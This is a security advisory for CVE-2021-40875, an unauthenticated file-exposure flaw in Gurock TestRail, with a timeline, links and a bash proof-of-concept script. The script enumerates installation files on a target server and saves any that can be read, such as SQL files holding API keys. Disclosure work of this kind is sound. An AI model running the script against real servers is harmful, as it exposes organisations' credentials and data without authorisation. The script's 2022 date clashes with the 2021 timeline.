 ### Title
CVE-2021-40875: Improper Access Control in Gurock TestRail versions 7.2.0.3014 and below results in sensitive file exposure

### CVE ID
CVE-2021-40875

### CVSS Score
Pending

### Internal ID
SICK-2021-129

### Vendor
Gurock Software GmbH

### Product
TestRail Test Case Management Software

### Product Versions
7.2.0.3014 and below

### Vulnerability Details
Improper access control in the installation artifacts of Gurock TestRail versions 7.2.0.3014 allows a remote unauthenticated attacker to view sensitive SQL import files, some of which contain API keys and a full directory listing of files included in the installation, as well as SQL table names.

### Vendor Response
Pending

### Proof of Concept


https://github.com/SakuraSamuraii/derailed


```bash
#!/bin/bash
# Author:       sickcodes & 
# Contact:      https://twitter.com/sickcodes
# Copyright:    sickcodes (C) 2021
# License:      GPLv3+

# Exploit Title: Gurock Testrail 7.2.0.3014 - 'files.md5' Improper Access Control
# Date: 22/09/2022
# Exploit Author: Sick Codes & JohnJHacking (Sakura Samuraii)
# Vendor Homepage: https://www.gurock.com/testrail/
# Version: 7.2.0.3014 and below
# Tested on: macOS, Linux, Windows
# CVE : CVE-2021-40875
# Reference: https://johnjhacking.com/blog/cve-2021-40875/


# stop null byte error while curling
shopt -s nullglob

! [ "${1}" ] && { echo "No target was specified. ./script.sh 'https://target/'" && exit 1 ; }

TARGET="${1}"

FILE_LIST="${PWD}/files.md5.txt"

stat "${FILE_LIST}" || wget -L https://raw.githubusercontent.com/SakuraSamuraii/derailed/main/files.md5.txt

mkdir -p ./output
cd ./output

touch ./accessible.log

# fetch an updated files.md5, if it comes in a future version
# curl "${TARGET}/files.md5" > ./files.md5

while read -r HASH SUFFIX; do
    echo "${SUFFIX}"
    TESTING_URL="${TARGET}/${SUFFIX}"
    echo "========= ${TESTING_URL} ========="

    # Ignore list, some of these files MAY be world readable,
    # if the organisation has modified permissions related 
    # to the below files otherwise, they are ignored.
    case "${SUFFIX}" in
        *'.php' ) continue
            ;;
        *'.html' ) continue
            ;;
        *'LICENSE' ) continue
            ;;
        *'README.md' ) continue
            ;;
        *'.js' ) continue
            ;;
        *'.svg' ) continue
            ;;
        *'.gif' ) continue
            ;;
        *'.png' ) continue
            ;;
        *'.css' ) continue
            ;;
        *'.exe' ) continue
            ;;
        *'.pdf' ) continue
            ;;
        # *'.add_your_own' ) continue
        #     ;;
    esac

    # peek at page response
    # doesn't work because gurock returns 200 and prints the error in plaintext
    # curl -s -I -X POST "${TESTING_URL}"

    # feth the page, following redirects, to a variable
    OUTPUT_DATA="$(curl -L -vvvv "${TESTING_URL}")"

    # find matching disqualifying pharses in the page contents
    # and pass any pages that are "denied access" or "direct script access"
    case "${OUTPUT_DATA}" in
        *'No direct script'* ) continue
            ;;
        *'Directory Listing Denied'* ) continue
            ;;
    esac

    # save all interesting pages, without forward slashes
    # https://www.target/
    # will be saved as:
    # https:::www.target:
    tee "${SUFFIX//\//\:}" <<< "${OUTPUT_DATA}"

    # print to stdout, and also append to ./accessible.log the successful saves
    tee -a ./accessible.log <<< "${TESTING_URL}"

done < "${FILE_LIST}"
```

#### Disclosure Timeline
* **2021-09-01** - Researchers discovers vulnerability, CVE requested.
* **2021-09-22** - Vulnerability published.

### Links

[https://www.gurock.com/testrail/](https://www.gurock.com/testrail/)

[https://johnjhacking.com/blog/cve-2021-40875/](https://johnjhacking.com/blog/cve-2021-40875/)

[https://github.com/SakuraSamuraii/derailed](https://github.com/SakuraSamuraii/derailed)

[https://github.com/sickcodes/security/blob/master/advisories/SICK-2021-129.md](https://github.com/sickcodes/security/blob/master/advisories/SICK-2021-129.md)

[https://sick.codes/sick-2021-129](https://sick.codes/sick-2021-129)

[https://packetstormsecurity.com/files/164270/Gurock-Testrail-7.2.0.3014-Improper-Access-Control.html](https://packetstormsecurity.com/files/164270/Gurock-Testrail-7.2.0.3014-Improper-Access-Control.html)

[https://www.exploit-db.com/exploits/50320](https://www.exploit-db.com/exploits/50320)

### Researchers
- *John Jackson* [https://twitter.com/johnjhacking](https://twitter.com/johnjhacking) || [https://github.com/johnjhacking](https://github.com/johnjhacking)

- *Sick Codes* [https://github.com/sickcodes](https://github.com/sickcodes) || [https://twitter.com/sickcodes](https://twitter.com/sickcodes)

#### CVE Links

[https://sick.codes/sick-2021-129](https://sick.codes/sick-2021-129)

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-40875](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-40875)

[https://nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-40875](https://nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-40875)

